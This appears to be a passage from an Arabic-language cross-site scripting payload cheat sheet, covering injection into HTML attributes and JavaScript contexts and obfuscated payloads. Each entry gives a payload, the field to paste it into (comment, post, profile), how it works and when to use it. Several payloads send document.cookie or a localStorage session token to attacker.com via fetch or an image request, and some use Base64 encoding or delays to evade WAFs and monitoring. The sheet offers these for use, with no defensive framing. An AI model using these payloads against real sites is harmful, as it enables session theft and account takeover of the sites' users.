 #### د. حقن داخل سمات أو JavaScript
{ #Inline_HTML_Injection   / #XSS_with_out_angle_bracket}
إدراج شيفرة في سياقات سمات HTML أو JavaScript.
- **الحقن**: `" onfocus="alert('XSS')`
  - **الإدخال**: أدخل في حقل تعليق: `" onfocus="alert('XSS')`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سمة مثل `<input value="...">`.
  - **متى يُستخدم؟**: لاستهداف السمات.
- **الحقن**: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **الإدخال**: أدخل في منشور: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في سمة حدث.
  - **متى يُستخدم؟**: لاستهداف أحداث السمات.
- **الحقن**: `";alert('XSS');//`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `";alert('XSS');//`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سياق JavaScript مثل `<script>var x="...";`.
  - **متى يُستخدم؟**: لاستهداف JavaScript.
- **الحقن**: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **الإدخال**: أدخل في حقل تعليق: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط في سياق JavaScript.
  - **متى يُستخدم؟**: لسرقة البيانات في JavaScript.
- **الحقن**: `" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
  - **الإدخال**: أدخل في منشور: `" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لاستهداف سمات التفاعل.

#### هـ. حقن مع التعتيم
{  #XSS_ecoded_payload  }
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF.
- **الحقن**: `<img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **الإدخال**: أدخل في منشور: `<img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجنب أنظمة الكشف.
- **الحقن**: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **كيف يعمل**: يؤخر إرسال البيانات لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `<script>document['location']='http://attacker.com'</script>`
  - **الإدخال**: أدخل في منشور: `<script>document['location']='http://attacker.com'</script>`
  - **كيف يعمل**: يستخدم صيغة غير قياسية لإعادة التوجيه.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.
